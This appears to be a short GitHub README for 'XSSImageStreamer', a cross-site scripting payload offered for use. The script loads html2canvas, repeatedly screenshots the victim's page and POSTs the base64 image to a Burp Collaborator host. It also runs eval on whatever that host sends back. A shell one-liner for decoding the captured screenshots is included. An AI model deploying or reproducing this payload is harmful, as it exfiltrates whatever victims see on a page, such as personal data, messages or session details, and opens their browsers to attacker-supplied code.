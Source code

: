 # XSSImageStreamer
An XSS payload that sends screenshot of the victim page using html2canvas to render page

To extract the image from the data received in post:
cat test | base64 -d | awk -F',' '{print $2}' | base64 -d > screen.png

XSS payload (Change burpcollaborator server):
<script src="https://html2canvas.hertzen.com/dist/html2canvas.min.js"></script><script>console.log('Sleeping to allow resources loading!');setTimeout(function () {setInterval(function () {html2canvas(document.getElementsByTagName("html")[0], {scale: 1}).then(canvas => {function b() {eval(this.responseText)};a = new XMLHttpRequest();a.addEventListener("load", b);a.open("POST", "//ep7ux11l8647037a9jv2lreo2f87ww.burpcollaborator.net/screenshot");a.send(btoa(canvas.toDataURL()));}).catch(e => console.log(e));}, 1000);}, 3000);</script>
